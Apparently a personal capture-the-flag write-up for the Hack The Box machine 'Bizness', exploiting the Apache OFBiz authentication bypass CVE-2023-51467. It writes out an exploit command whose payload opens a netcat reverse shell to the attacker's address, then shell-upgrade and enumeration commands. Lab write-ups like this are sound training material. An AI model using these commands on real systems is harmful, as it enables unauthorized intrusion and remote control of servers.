## Example Network A
---
**IP range:** 10.0.0.1/24
- [*] 10.0.0.1 (Windows 7 Host - Port 80 and 445 open)
- [ ] 10.0.0.2 (Linux Host - Port 8000 and 3306 open)

## Example Network B
---
**IP Range:** 10.1.0.1/24
- [*] 10.1.0.1 (Linux Host - No open ports)
# Potential Exploits
---
If we google "Apache OFBiz. Release 18.12 CVE" we find: 

- [ ]  [CVE-2023-51467](https://www.cvedetails.com/cve/CVE-2023-51467/ "CVE-2023-51467 security vulnerability details") -> VULNERABLE

## 80/443 - HTTP/HTTPS
---
### CVE-2023-51467

We find a tester for the CVE on Github -> https://github.com/Chocapikk/CVE-2023-51467
![[Screenshot 2024-02-15 131907 1.png]]

We find a script to do the exploit -> https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass

We run the following command:
```cmd
python3 exploit.py --url "https://bizness.htb" --cmd "nc -c bash 10.10.14.3 9999"
```

AND WE GET A REVERSE SHELL !!
![[Screenshot 2024-02-15 135233.png]]

TIP -> We can now upgrade our shell using the following command
```cmd
script /dev/null -qc /bin/bash
stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
# Post Exploitation
---
## Network Enumeration
---
```cmd
netstat
ifconfig 
```

